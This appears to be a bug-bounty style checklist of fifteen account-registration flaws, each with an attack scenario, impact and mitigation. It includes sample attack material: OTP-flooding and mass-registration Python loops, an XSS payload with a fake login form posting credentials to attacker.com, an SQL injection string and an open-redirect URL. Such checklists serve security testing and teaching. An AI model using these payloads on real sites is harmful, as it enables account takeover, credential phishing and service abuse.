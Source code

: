 # Account Registration Vulnerabilities

## 1. Http not Https  
**Vulnerability**: If the website uses HTTP instead of HTTPS, all data (like email, password, OTP) is sent in plaintext and can be intercepted.  
**Attack Scenario**: If you're on public WiFi and register on a website that uses HTTP, an attacker using tools like Wireshark can sniff your email and password easily.  
**Impact**: Credential theft.  
**Mitigation**: Enforce HTTPS and implement HSTS.

## 2. No confirmation code leads to account creation with admin email  
**Vulnerability**: If the website doesn't validate the email, you can register with someone else's email or even the admin's.  
**Attack Scenario**:  
◇ Sign up using `admin@example.com`  
◇ If there’s no confirmation, you now control the account associated with the admin’s email.  
**Impact**: Privilege escalation.  
**Mitigation**: Enforce email confirmation before allowing login or sensitive actions.

## 3. Reusable confirmation link  
**Vulnerability**: The confirmation link is reusable.  
**Attack Scenario**:  
◇ You receive an account confirmation email.  
◇ You confirm the account, but keep the link.  
◇ If reused, it grants access or creates a new session.  
**Impact**: Unauthorized access.  
**Mitigation**: Make confirmation links single-use and expire them after first use.

## 4. OTP abuse without rate-limiting  
**Vulnerability**: No rate limit on OTP requests allows abuse.  
**Attack Scenario**:  
◇ Attacker sends thousands of OTP requests to a victim.  
◇ Or brute-forces the OTP using Burp Intruder or Python script:

```python
import requests
for i in range(50):
    requests.post("http://example.com/send_otp", data={"email": "test@mail.com"})
```

**Impact**: DoS or unauthorized access.  
**Mitigation**: Apply rate limiting and CAPTCHA.

## 5. OTP leaked in response  
**Vulnerability**: OTP is included in the server response.  
**Attack Scenario**:  
◇ Intercept the request using Burp Suite.  
◇ Response contains `{ "otp": "123456" }`.  
**Impact**: Easy OTP theft.  
**Mitigation**: Never expose OTPs in responses; send them via secure channels.

## 6. Pre-account Takeover with 2FA  
**Vulnerability**: Attacker enables 2FA before verifying email.  
**Attack Scenario**:  
◇ Sign up with `victim@example.com`  
◇ Enable 2FA without verifying the email  
◇ Victim can’t access their account later.  
**Impact**: Account lockout.  
**Mitigation**: Block all settings access until email is verified.

## 7. Pre-account Takeover via social login  
**Vulnerability**: Attacker links social login to an unverified email.  
**Attack Scenario**:  
◇ Sign up with `victim@example.com`  
◇ Link Google account  
◇ Victim later tries to log in via Google and loses control.  
**Impact**: Unauthorized account linking.  
**Mitigation**: Restrict OAuth linking until email is verified.

## 8. OAuth Auto-verification exploit  
**Vulnerability**: Signing in via OAuth verifies an unverified account.  
**Attack Scenario**:  
◇ Attacker signs up with `victim@gmail.com` but doesn't verify.  
◇ Victim later uses Google OAuth.  
◇ Old attacker account becomes verified.  
**Impact**: Account takeover.  
**Mitigation**: Treat OAuth logins as separate flows; avoid merging with unverified accounts.

## 9. Email change bypasses verification  
**Vulnerability**: Change email before verifying original email.  
**Attack Scenario**:  
◇ Sign up with `victim@gmail.com`, don’t verify  
◇ Go to settings and change the email to `hacker@gmail.com` and verify  
◇ Entire account is now owned by attacker  
**Impact**: Email hijack  
**Mitigation**: Restrict email change until original email is verified.

## 10. Account deletion without password confirmation  
**Vulnerability**: Delete account without password confirmation.  
**Attack Scenario**:  
◇ After hijacking, attacker deletes account easily.  
**Impact**: Permanent denial of access.  
**Mitigation**: Require re-authentication for critical actions.

## 11. HTML Injection in username field  
**Vulnerability**: HTML injection leads to UI deception.  
**Attack Scenario**:
```html
<b style="color:red">Admin</b>
<img src=x onerror="alert('XSS')">
<form action="https://attacker.com" method="POST">
  <input name="username">
  <input name="password" type="password">
  <button type="submit">Login</button>
</form>
```
**Impact**: Phishing, fake UI, or visual manipulation.  
**Mitigation**: Sanitize user input and use output encoding.

## 12. SQL Injection in username or email  
**Vulnerability**: SQL injection through input fields.  
**Attack Scenario**:  
◇ Try input like `' OR 1=1 --`  
**Impact**: Bypass login, data access.  
**Mitigation**: Use prepared statements and ORM.

## 13. Open Redirect after registration  
**Vulnerability**: Unvalidated redirect URL parameter.  
**Attack Scenario**:  
◇ `http://example.com/redirect?url=http://attacker.com`  
**Impact**: Phishing or malware redirection.  
**Mitigation**: Whitelist redirect destinations.

## 14. Missing rate-limiting for registration  
**Vulnerability**: Allows mass account creation.  
**Attack Scenario**:

```python
import requests, random, string

def generate_username(): return ''.join(random.choices(string.ascii_lowercase, k=8))
def generate_email(): return ''.join(random.choices(string.ascii_lowercase, k=10)) + "@example.com"

url = "http://example.com/register"
data = { "password": "password123" }

for i in range(100):
    data["username"] = generate_username()
    data["email"] = generate_email()
    res = requests.post(url, data=data)
    print(f"Attempt {i+1}: {res.status_code}")
```

**Impact**: Spam, abuse, account farm.  
**Mitigation**: Apply CAPTCHA, email verification, and IP rate limiting.

## 15. Email enumeration on sign up  
**Vulnerability**: Site reveals if email exists during registration.  
**Attack Scenario**:  
◇ Try to register with `victim@example.com`  
◇ Server replies: "Email already in use"  
**Impact**: Leak of user existence.  
**Mitigation**: Generic error messages like "Registration failed."

